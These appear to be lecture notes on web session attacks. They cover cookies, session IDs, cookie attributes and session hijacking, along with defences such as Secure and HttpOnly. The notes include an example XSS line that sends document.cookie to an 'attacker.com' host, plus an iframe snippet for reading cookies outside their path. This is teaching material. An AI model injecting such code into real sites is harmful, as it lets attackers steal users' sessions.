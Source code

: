 ```yaml
---
title: Lecture 3: Session Attacks
---
```



* The server can set cookies with `Set-Cookie: theme=dark;` (Header Name, Cookie Name, Cookie Value).
* The browser automatically adds cookies with every request.
* Cookies are so old they precede the SOP. You basically set an expiration date on the Cookie and clear it by setting a date in the past.
* Sign cookies to prevent tampering.

### Sessions
* Server wants to keep data about the user over multiple requests. (ex: Logins, shopping carts, user tracking)
* **Ambient Authority**: access control based on global/persistent property of the user (as long as they specify an action, it will be done).
There are 4 ways of doing this: Cookies (common), IP checking (used at Stanford for lib resources), built-in HTTP auth (rare), client certs (rare)
* Generate a random number, use that as session ID and store it. Make these unguessable and delete them from DB on logout.

### Signature Schemes
* Triple of algorithms (G, S, V)
* Generator (`G() -> (pk, sk)`), Signer (`S(sk, x) -> t`), Verifier (`V(pk, x, t) -> accept/reject`).

### History of Cookies
* Implemented in 1994 in Netscape, described in 4 pages. No spec for 17 years.
* Ad-hoc design has led to interesting issues.
* There were several attempts but they had incompatible changes -- one in 1997, another in 2000 (Cookie2), and finally one succeeded (RFC 6265) in 2011.
* Cookies are a weird special case that behaves differently from everything else on the web.

### Cookie Attributes
* Expires: Specifies expiration date. If no date, lasts for session (until you close browser, but now there's session restoration).
* Path: Scope the "Cookie" header to a particular path prefix. e.g. `Path=/docs` matches `/docs` and `/docs/web`. Don't use this for security.

### Accessing Cookies from JS
* `document.cookie = 'name=Feross'`
* `document.cookie = 'favoriteFood=Cookies; Path=/'`
* `document.cookie` is now `name=Feross; favoriteFood=Cookies;` (it didn't delete)
* `document.cookie = 'name=; Expires=Thu, 01 Jan 1070...'` in order to delete

### Session Hijacking
* Session hijacking works by stealing cookies.
* This can happen over HTTP (not S).
* Use `Secure` cookie attribute to prevent the cookie from being sent over unencrypted HTTP.
* e.g. `Set-Cookie: key=value; Secure` (or just use HTTPS for the whole website.)
* XSS: Attacker can insert their code and easily exfiltrate the user's cookie. 
* e.g. `new Image().src = 'https://attacker.com/steal?cookie=' + document.cookie`
* Protect cookies from XSS: Prevent it from being used in JS: `Set-Cookie: key-value; Secure; Httponly`

#### How to get around path restriction for cookies: add an iframe. 
```
const iframe = document.createElement('iframe')
iframe.src= = 'https://web.stanford.edu/class/cs106a'
document.body.append(iframe)
iframe.style.display = 'none' // Set iframe to be invisible
// contentDocument is the equivalent of their document. We can cross
// this boundary to see their equivalent of document
iframe.contentDocument.cookie
```
Only use path as an optimization!



